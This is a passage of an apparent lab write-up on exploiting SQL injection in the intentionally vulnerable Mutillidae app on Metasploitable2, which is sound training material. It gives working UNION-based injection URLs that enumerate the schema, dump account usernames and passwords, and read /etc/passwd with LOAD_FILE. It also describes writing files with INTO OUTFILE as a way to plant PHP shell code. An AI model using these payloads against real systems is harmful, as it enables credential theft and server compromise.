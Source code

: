Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Lakshmipriya2005/sqlinjection/assets/115525361/ffdf9fd6-2480-43d9-818c-f27126c1c0c0)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![image](https://github.com/Lakshmipriya2005/sqlinjection/assets/115525361/c1c74c0f-47b6-4b63-a37c-7d44a3787381)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Lakshmipriya2005/sqlinjection/assets/115525361/fec29da0-b996-47a6-8672-d7389aacbe71)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Lakshmipriya2005/sqlinjection/assets/115525361/e41ce27f-89ff-4121-b8f7-38316dadb24b)

Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![image](https://github.com/Lakshmipriya2005/sqlinjection/assets/115525361/9680a38a-b4b3-41b2-983e-81d0a2fa5991)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
